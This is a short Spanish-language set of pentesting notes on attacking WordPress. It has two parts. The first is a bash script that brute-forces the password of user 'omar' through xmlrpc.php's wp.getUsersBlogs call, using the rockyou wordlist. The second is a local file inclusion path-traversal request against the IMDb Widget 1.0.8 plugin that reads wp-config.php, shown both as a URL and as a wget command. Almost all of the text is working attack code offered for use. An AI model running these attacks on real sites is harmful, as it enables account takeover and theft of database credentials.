 ```bash 
# Creamos un archivo llamado 'xmlrpc_bruteforce.sh' para hacer el ataque 'Brute force' y enumerar 

#!/bin/bash 

function ctrl_c(){
	echo -e "\n\n[!] Saliendo...\n"
	tput cnorm; exit 1
}

# Ctrl_c
trap ctrl_c INT

tput civis

function createXML(){
	password=$1

	xmlFile="""
	<?xml version=\"1.0\" encoding=\"UTF-8\"?>
	<methodCall> 
	<methodName>wp.getUsersBlogs</methodName> 
	<params> 
	<param><value>omar</value></param> 
	<param><value>$password</value></param> 
	</params> 
	</methodCall>
	"""
	echo $xmlFile > file.xml
	response=$(curl -s -X POST "http://IP/xmlrpc.php" -d@file.xml)

	if [ ! "$(echo $response | grep 'Incorrect username or password.')" ]; then 
		echo -e "\n[+] La contraseña para el usuario omar es $password"
		echo 0
	fi
}

cat /usr/share/wordlists/rockyou.txt | while read password; do 
	createXML $password
done 
```

## WordPress LFI 

```bash 
# El LFI funciona cuando tenemos el plugin 'IMDb Widget 1.0.8'

❯ /wp-content/plugns/imdb-widget/pic.php?url=../../../wp-config.php    # Aqui se encuentra la vulnerabilidad y mostrara la 'pic', lo unico que debemos de hacer es descargarla y cambiar el formato 'jpg' por 'txt' para ver el contenido, que en este caso seria el de 'wp-config.php'


# Otra forma de hacerlo 
❯ wget "https://IP/wp-content/plugns/imdb-widget/pic.php?url=../../../wp-config.php" -O output.txt
	# O = Archivo de salida 'Output' llamado 'output.txt'
```